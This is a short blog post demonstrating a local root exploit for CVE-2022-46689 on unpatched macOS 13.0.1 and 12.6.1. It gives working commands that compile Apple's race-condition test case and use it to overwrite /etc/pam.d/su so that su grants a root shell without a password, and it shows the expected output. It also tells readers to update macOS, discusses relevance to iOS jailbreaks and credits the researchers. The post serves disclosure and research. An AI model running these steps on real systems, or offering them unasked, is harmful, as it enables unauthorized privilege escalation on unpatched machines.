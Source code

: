 ```yaml
---
title: Get root on macOS 13.0.1 with CVE-2022-46689, the macOS Dirty Cow bug
categories: macos
permalink: /macdirtycow/
---
```


Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

## Usage

On a macOS 13.0.1 / 12.6.1 (or below) machine, clone the extracted test case:

git clone [https://github.com/zhuowei/MacDirtyCowDemo](https://github.com/zhuowei/MacDirtyCowDemo)

Then run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the `/System` volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Should I be worried?

If you installed the latest macOS update (macOS 13.1 / 12.6.2 / 11.7.2), you should be fine.

If you haven't, do it now.

## Will this be useful for iOS jailbreak?

Probably not.

This - as far as I can tell - affects userspace processes only. Jailbreaks require a kernel exploit. (The Apple Security release notes says that this bug may allow "arbitrary code with kernel privileges", but I can't see how.)

You might still do something cool on iOS with this, but I'm not sure what you'd overwrite: codesigning should protect all executables and libraries. (I have not tested this: let me know if you find anything!)

## Credits

- Ian Beer of [Project Zero](https://googleprojectzero.blogspot.com/) for finding this issue, and for finding [other issues in XNU's virtual memory](https://bugs.chromium.org/p/project-zero/issues/detail?id=2337#c3). Looking forward to the writeup for this issue.
- Apple for the [test case](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c) and [patch](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/osfmk/vm/vm_map.c#L10150). (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.
- [@WangTielei](https://twitter.com/WangTielei/status/1603963997618855937) for sharing a related issue and answering my questions.

## Changelog

2022-12-17:

- clarified that "jailbreak" refers to iOS.
- clarified that the Project Zero issue link goes to a different issue than this one.
- link the patch in `vm_map_copy_overwrite_unaligned`.